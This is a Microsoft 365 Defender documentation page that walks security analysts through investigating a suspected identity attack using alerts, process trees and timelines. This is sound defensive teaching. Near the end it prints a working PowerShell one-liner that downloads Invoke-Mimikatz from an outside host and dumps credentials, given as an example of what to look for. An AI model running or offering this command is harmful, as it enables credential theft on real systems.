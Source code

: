 ```yaml
---
title: Example of an identity-based attack
description: Step through an example analysis of an identity-based attack.
keywords: incidents, alerts, investigate, correlation, attack, machines, devices, users, identities, identity, mailbox, email, 365, microsoft, m365, incident response, cyber-attack
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords: 
  - NOCSH
ms.author: josephd
author: JoeDavies-MSFT
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
  - M365-security-compliance
  - m365initiative-m365-defender
ms.topic: conceptual
search.appverid: 
  - MOE150
  - MET150
ms.technology: m365d
---
```

# Example of an identity-based attack

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Applies to:**
- Microsoft 365 Defender

Microsoft Defender for Identity can help detect malicious attempts to compromise identities in your organization. Because Defender for Identity integrates with Microsoft 365 Defender, security analysts can have visibility on threats coming in from Defender for Identity, such as suspected Netlogon privilege elevation attempts.

## Analyzing the attack at Microsoft Defender for Identity

Microsoft 365 Defender allows analysts to filter alerts by detection source on the **Alerts** tab of the incidents page. In the following example, the detection source is filtered to **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtering the detection source forthe Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Selecting the **Suspected overpass-the-hash attack** alert goes to a page in Microsoft Defender for Cloud Apps that displays more detailed information. You can always find out more about an alert or attack by selecting **Learn more about this alert type** to read a [description of the attack](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) and remediation suggestions.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## Investigating the same attack at Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more about the activity on an endpoint. Select the incident from the incident queue, then select the **Alerts** tab. From here, they can identify the detection source as well. A detection source labeled as EDR stands for Endpoint Detection and Response, which is Defender for Endpoint. From here, the analyst selects an alert detected by EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="An Endpoint Detection and Response in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png"::: 

The alert page displays various pertinent information such as the impacted device name, username, status of auto-investigation, and the alert details. The alert story depicts a visual representation of the process tree. The process tree is a hierarchical representation of parent and child processes related to the alert.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="An alert process tree in the Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Each process can be expanded to view more details. Details that an analyst can see are the actual commands that were entered as part of a malicious script, outbound connection IP addresses, and other useful information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="The process details in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
By selecting **See in timeline**, an analyst can drill down even further to determine the exact time of the compromise. 

Microsoft Defender for Endpoint can detect many malicious files and scripts. However, due to many legitimate uses for outbound connections, PowerShell, and command-line activity, some activity would be considered benign until it creates a malicious file or activity. Therefore, using the timeline helps analysts to put the alert into context with the surrounding activity to determine the original source or time of the attack that otherwise is obscured by common file system and user activity. 

To use the timeline, an analyst would start at the time of the alert detection (in red) and scroll down backwards in time to determine when the original activity that led to the malicious activity actually started. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analyst's start time for the alert detection" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

It is important to understand and distinguish common activity such as Windows Update connections, Windows Trusted Software activation traffic, other common connections to Microsoft sites, third-party Internet activity, Microsoft Endpoint Configuration Manager activity, and other benign activity from suspicious activity. One way to distinguish is by using timeline filters. There are many filters that can highlight specific activity while filtering out anything that the analyst does not want to view. 

In the image below, the analyst filtered to view only network and process events. This filter criteria allows the analyst to see the network connections and processes surrounding the event where Notepad established a connection with an IP address, which we also saw in the process tree. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="How Notepad was used to make a malicious outbound connection" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

In this particular event, Notepad was used to make a malicious outbound connection. However, often attackers will use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for outbound connections. The analyst would look for successful PowerShell connections with commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file. 

In the following example, PowerShell was used to download and execute Mimikatz from a website:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with PowerShell. 

## Next step

See the [phishing](first-incident-path-phishing.md) investigation path.

## See also

- [Incidents overview](incidents-overview.md)
- [Manage incidents](manage-incidents.md)
- [Investigate incidents](investigate-incidents.md)
